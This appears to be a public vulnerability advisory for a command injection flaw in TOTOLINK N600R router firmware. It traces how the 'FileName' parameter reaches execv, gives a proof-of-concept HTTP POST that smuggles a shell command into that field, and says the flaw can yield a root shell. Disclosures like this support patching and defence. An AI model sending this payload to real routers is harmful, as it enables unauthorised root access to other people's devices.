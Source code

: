 # TOTOlink N600R V5.3c.7159_B20190425 Command injection vulnerability

## Overview

- Manufacturer's website information：http://www.totolink.cn
- Firmware download address ： http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=2&ids=36

## 1. Affected version

![image-20220406182121036](img/image-20220406182121036.png)

Figure 1 shows the latest firmware Ba of the router

## Vulnerability details

![image-20220406183347727](img/image-20220406183347727.png)

The content obtained by the program through the filename parameter is passed to V8, and then V8 is copied into the stack of V15 through the strcpy function, and then V15 is brought into update_ In FW function

![image-20220406183413984](img/image-20220406183413984.png)

At this time, the corresponding parameter A2

![image-20220406183432374](img/image-20220406183432374.png)

Then bring A2 into the setcloudupgradefw function

![image-20220406183458864](img/image-20220406183458864.png)

Then copy A2 into the stack of V23 through strcpy function, and finally format the content matched by V23 into V20 through sprintf function, and bring V20 into cstesystem function

![image-20220406182546918](img/image-20220406182546918.png)

At this time, corresponding to the parameter A1, the function assigns A1 to the array of V9, and finally executes the command through the execv function. There is a command injection vulnerability

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware V5.3c.7159_B20190425
2. Attack with the following POC attacks

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 86
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/telnet.asp?timestamp=1647874864
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1647874864:2
Connection: close

{
	"topicurl":"setting/CloudACMunualUpdate",
	"FileName":"test$(ls > /tmp/9.txt)"
}
```

The reproduction results are as follows:

![image-20220406183533304](img/image-20220406183533304.png)

Figure 2 POC attack effect

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell

